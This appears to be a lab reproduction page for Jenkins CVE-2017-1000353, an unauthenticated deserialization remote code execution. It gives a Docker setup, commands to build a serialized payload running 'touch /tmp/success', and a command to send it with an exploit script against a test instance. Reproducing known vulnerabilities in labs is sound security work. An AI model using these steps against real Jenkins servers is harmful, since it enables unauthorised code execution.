

Jenkins Remote Code Execution (CVE-2017-1000353)¶
Jenkins is a popular open-source automation server.
Jenkins versions 2.56 and earlier as well as 2.46.1 LTS and earlier are vulnerable to an unauthenticated remote code execution. An unauthenticated remote code execution vulnerability allowed attackers to transfer a serialized Java SignedObject object to the Jenkins CLI, that would be deserialized using a new ObjectInputStream, bypassing the existing blacklist-based protection mechanism.
References:
Environment Setup¶
Execute the following command to start Jenkins 2.46.1:
docker compose up -d
After the server is fully started, visit http://your-ip:8080 to access Jenkins. No manual installation is required.
Vulnerability Reproduction¶
The exploitation process involves two steps: generating a malicious serialized payload and sending it to the target Jenkins server.
First, download the CVE-2017-1000353-1.1-SNAPSHOT-all.jar tool to generate the payload. This tool will create a serialized object containing our command:
java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser "touch /tmp/success"
# jenkins_poc.ser is the output file name
# "touch ..." is the command to be executed
Note: The Java version used for payload generation is crucial. OpenJDK 8u292 is recommended, as other Java versions might not generate a working payload. If you encounter issues, you can use the following command to generate the payload using Docker:
docker run --rm -v $(pwd):/tmp openjdk:8u292 bash -c "cd /tmp && java -jar CVE-2017-1000353-1.1-SNAPSHOT-all.jar jenkins_poc.ser \"touch /tmp/success\""
After execution, a file named jenkins_poc.ser will be generated containing the serialized payload.
Next, download the exploit.py script and execute it with Python 3 to send the payload:
python exploit.py http://your-ip:8080 jenkins_poc.ser

To verify the successful exploitation, check inside the container for the created file:

The presence of /tmp/success file confirms that the remote code execution was successful.